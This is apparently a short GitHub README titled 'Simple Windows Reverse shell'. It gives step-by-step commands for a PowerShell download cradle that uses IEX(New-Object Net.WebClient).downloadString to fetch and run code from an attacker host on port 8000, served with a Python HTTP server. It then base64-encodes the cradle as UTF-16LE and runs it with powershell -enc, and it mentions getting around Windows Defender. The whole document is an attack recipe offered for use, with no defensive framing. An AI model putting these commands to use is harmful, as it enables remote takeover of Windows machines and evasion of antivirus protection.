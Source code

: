 # Simple Windows Reverse shell 
If this not working try the another one that is blocked by defender...

```language
nano touch.ps1
nano cradle
cradle content:- IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")

python3 -m http.server 8000

cat cradle | iconv -t utf-16le | base64 -w0; echo

powershell -enc <encoded_code>
```
